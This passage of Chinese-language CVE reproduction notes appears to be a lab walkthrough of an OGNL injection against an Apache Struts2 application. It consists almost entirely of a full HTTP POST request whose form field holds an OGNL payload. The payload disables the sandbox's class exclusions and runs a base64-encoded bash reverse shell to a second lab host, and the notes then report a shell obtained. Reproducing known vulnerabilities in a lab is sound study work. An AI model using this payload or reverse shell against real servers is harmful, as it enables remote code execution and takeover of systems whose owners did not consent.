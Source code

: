 ![image-20241127235554354](CVE漏洞复现/image-20241127235554354.png)	

```
使用bp复制到repeater继续发送。将base64加密好的命令复制到指定位置即可。
POST /index.action HTTP/1.1
Host: 192.168.15.50:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

```
获得shell成功。
```

![image-20241127235843802](CVE漏洞复现/image-20241127235843802.png)	
